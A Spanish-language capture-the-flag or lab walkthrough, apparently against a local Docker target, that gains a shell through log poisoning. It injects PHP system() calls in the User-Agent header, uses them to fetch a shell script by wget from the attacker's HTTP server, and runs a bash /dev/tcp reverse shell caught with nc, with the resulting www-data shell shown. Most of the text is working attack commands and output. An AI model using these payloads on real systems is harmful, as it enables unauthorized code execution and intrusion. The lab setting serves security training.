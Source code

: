 Veremos que si podemos entrar, por lo que probaremos a poner un `whoami` a ver si funciona:

```shell
curl -s -X GET 'http://g00dj0b.reverse.dl' -H "User-Agent:<?php system('whoami'); ?>"
```

Ahora si recargamos la pagina, veremos lo sisguiente:

```
172.17.0.1 - - [24/Dec/2024:17:30:05 +0000] "GET / HTTP/1.1" 200 1423 "-" "www-data
```

Vemos que se nos esta ejecutando, por lo que nos haremos una `reverse shell` de la siguiente forma:

> shell.sh

```shell
#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Creamos ese archivo y abriremos un servidor de `python3` para pasarnos el archivo.

```shell
python3 -m http.server
```

Por lo que pondremos lo siguiente:

```shell
curl -s -X GET 'http://g00dj0b.reverse.dl' -H "User-Agent:<?php system('wget http://<IP>:8000/shell.sh'); ?>"
```

Y cuando recarguemos la pagina es cuando se va a ejecutar el comando, por lo que la recargamos y si vamos al server de `python3` vemos que ha funcionado por que veremos lo siguiente:

```
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [24/Dec/2024 12:36:44] "GET /shell.sh HTTP/1.1" 200 -
```

Vemos que lo ha pillado, ahora le pondremos permisos de ejecuccion de la siguiente forma:

```shell
curl -s -X GET 'http://g00dj0b.reverse.dl' -H "User-Agent:<?php system('chmod +x shell.sh'); ?>"
```

Ahora lo ejecutaremos, pero antes nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y ponemos lo siguiente:

```shell
curl -s -X GET 'http://g00dj0b.reverse.dl' -H "User-Agent:<?php system('bash shell.sh'); ?>"
```

Recargamos la pagina y si vamos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 42806
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
┌──[www-data@71c36e1f8f71]─[/var/www/subdominio]
└──╼ $ whoami
whoami
www-data
```
